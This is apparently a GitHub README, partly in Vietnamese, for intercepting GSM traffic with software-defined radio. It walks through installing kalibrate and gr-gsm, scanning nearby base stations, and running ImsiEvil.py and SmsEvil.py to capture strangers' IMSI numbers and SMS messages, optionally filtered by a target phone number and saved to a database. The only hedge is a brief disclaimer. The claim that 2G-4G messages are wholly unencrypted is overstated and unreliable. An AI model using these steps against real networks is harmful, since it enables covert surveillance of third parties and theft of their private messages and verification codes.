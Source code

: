 # Read_Sms_Hacking
Đọc tin nhắn của mạng đi động 2G-4G.

Bài viết nhằm mục đích giúp bạn đọc hiểu hơn về mạng di động, các công cụ đo lường tín hiệu mạng di động, các công cụ phân tích và đọc gói tin tcp/ip \
Bạn đọc lập trình không nên sử dụng kiến thức của mình vào các mục đích trái pháp luật.

Mạng 2G-4G khi gửi tin nhắn xuống thẻ Sim chưa được mã hóa, nên chỉ cần một thiết bị bắt đúng giải tần số của BTS là có thể đọc được tin nhắn, nghe được audio thoại.

Các thiết bị IOT như cửa cuốn, khóa xe ô tô, xe máy... cũng có thể bị hack bằng cách tương tự này.

  <p align="center">
    <img src="https://www.paladion.net/hs-fs/hubfs/Paladion--2019/resources/blogs/How%20to%20Build%20an%20IMSI%20Catcher/3.jpg?width=527&name=3.jpg" style="max-width:100%;max-height:100%;" />
  </p>

**Hacker cũng có thể tạo ra những trạm BTS giả mạo chưa tới 600$, hoặc sử dụng các thiết bị IMSI catcher** <br/>
https://jurnal-singkat.blogspot.com/2016/04/building-portable-gsm-bts-using-nuand.html

# Công cụ phần mềm
```
kalibrate-rtl hoặc kalibrate-hackrf: công cụ quét dãy tần số GSM, xác định trạm BTS trong khu vực có tín hiệu mạnh
gr-gsm: công cụ thu và xử lý tín hiệu GSM
Wireshark: công cụ thu nhận dữ liệu mạng từ gr-gsm xử lý
gqrx: công cụ thu tín hiệu từ SDR
```

# Công cụ phần cứng: có thể dùng một trong các RTL-SDR, Hackrf, USRP, Blade-RF
```
https://www.paladion.net/blogs/how-to-build-an-imsi-catcher-to-intercept-gsm-traffic
Khi cắm thiết bị phần cứng vào cổng usb hoặc RS thì sẽ xuất hiện thêm card mạng mới, kiểm tra bằng lệnh lsusb sẽ thấy.
gqrx có nhiệm vụ thu tín hiệu từ thiết bị vào card mạng mới này
```

# Setup

```
sudo apt-get install python-pyshark
Gói pyshark để đọc các gói tin trong card mạng, vd bên dưới để đọc các payload http
https://medium.com/@vworri/extracting-the-payload-from-a-pcap-file-using-python-d938d7622d71
```

Install Gr GSM :  ( For receiving GSM transmissions )
```
sudo add-apt-repository -y ppa:ptrkrysik/gr-gsm
sudo apt-get update
sudo apt-get install gr-gsm
```

If gr-gsm failled to setup. Than follow those this : https://github.com/ptrkrysik/gr-gsm/wiki/Installation  

Install Kalibrate : ( For finding frequencies )
```
sudo apt install build-essential libtool automake autoconf librtlsdr-dev libfftw3-dev
git clone https://github.com/steve-m/kalibrate-rtl
cd kalibrate-rtl
./bootstrap && CXXFLAGS='-W -Wall -O3'
./configure
make
sudo make install
```
# Usage
You need gsm frequency on which you capture sms or imsi. By using kalibrate you will get all your near gsm base stations  frequencies.
```
kal -s GSM900
```
```
kal: Scanning for GSM-900 base stations.
GSM-900:
	chan: 4 (935.8MHz + 320Hz)	power: 1829406.95
	chan: 11 (937.2MHz + 308Hz)	power: 4540354.88
...
```
Now you need to capture gsm traffic using gr-gsm on frequency of your any gsm base station which you get from kalibrate.
```
grgsm_livemon -f <your_frequency>M
```
Example :
```
grgsm_livemon -f 935.8M
```
if you see output that's mean you getting gsm packets than continue other setps else change frequency.
```
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
...
```
Now every thing is ready you can start now capturing sms or imsi numbers using gsmevil.
You able to run imsi catcher and sms sniffer both at same time using 2 seprate terminal for capture imsi numbers and sms both at same time.
```
#### Capturing IMSI :
```
python ImsiEvil.py 
```
Options :
```
python ImsiEvil.py -h
Usage: ImsiEvil.py: [options]

Options:
  -h, --help            show this help message and exit
  -i IFACE, --iface=IFACE Interface (default : lo)
  -p PORT, --port=PORT  Port (default : 4729)
  -m IMSI, --imsi=IMSI  IMSI to track (default : None, Example: 123456789101112)
  -s SAVE, --save=SAVE  Save all imsi numbers to sqlite file. (default : None)
```
For save all imsi numbers with details in sqlite file.(It's will show you output on screen and also save in file)
```
python ImsiEvil.py -s example.db
```
For capture only specific imsi. (It's will show you only your given imsi result)
```
python ImsiEvil.py -m imsi_here (Example: python ImsiEvil.py -m 123456789101112)
```
#### Capturing SMS :

Run this command to quick start sms capturing.
```
python SmsEvil.py 
```
Options :
```
python SmsEvil.py -h
Usage: SmsEvil.py: [options]

Options:
  -h, --help            show this help message and exit
  -i IFACE, --iface=IFACE Interface (default : lo)
  -p PORT, --port=PORT  Port (default : 4729)
  -n NUMBER, --number=NUMBER Phone number (default : None)
  -s SAVE, --save=SAVE  Save all text messages to sqlite file. (default : None)
```
For save all sms in sqlite file.(It's will show you output on screen and also save in file)
```
python SmsEvil.py -s example.db
```
For capture only specific phone number sms. (It's will show you only your given phone number result)
```
python SmsEvil.py -n phone_number_here (Example: python SmsEvil.py -n 12345678910)
```

# Links 
Frequency : https://www.worldtimezone.com/gsm.html or https://en.wikipedia.org/wiki/GSM_frequency_bands
Sdr : https://en.wikipedia.org/wiki/Software-defined_radio
Sms : https://en.wikipedia.org/wiki/SMS#GSM
Imsi : https://fr.wikipedia.org/wiki/International_Mobile_Subscriber_Identity
Cell id : https://en.wikipedia.org/wiki/Cell_ID or https://unwiredlabs.com/
GSM : https://en.wikipedia.org/wiki/GSM
Frequency Calculator : https://www.cellmapper.net/arfcn
GR-GSM : https://github.com/ptrkrysik/gr-gsm
